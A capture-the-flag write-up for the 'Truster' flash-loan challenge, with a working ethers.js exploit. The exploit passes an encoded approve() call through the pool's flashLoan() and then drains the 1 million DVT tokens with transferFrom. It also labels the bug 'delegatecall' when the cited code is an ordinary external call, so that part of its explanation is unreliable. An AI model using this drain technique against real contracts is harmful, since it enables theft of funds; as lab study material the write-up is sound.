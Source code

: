 # Challenge #3 - Truster
 More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

 Currently the pool has 1 million DVT tokens in balance. And you have nothing.

 But don't worry, you might be able to take them all from the pool. In a single transaction.

## Exploit
In this challenge, the smart contract is vulnerable to delegatecall, where the attacker can 
execute some logic functionality on behalf of the smart contract in the ``target.functionCall(data)`` 
on line 36 on the ``flashloan()``.  

Knowing this, we can send some data to the ``flashLoan()`` to approve the attacker to tranfer 
himself any amount of funds, draining the contract.   
 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
		const abi = [
			"function approve(address spender, uint256 amount) external returns (bool)",
			"function transfer(address to, uint amount)"
		];
		const iface = new ethers.utils.Interface(abi);
		const data = iface.encodeFunctionData("approve", [attacker.address, ethers.utils.parseEther('100000000')]);
		await this.pool.flashLoan(0, attacker.address, this.token.address, data);
		this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, ethers.utils.parseEther('1000000'));
    });
```
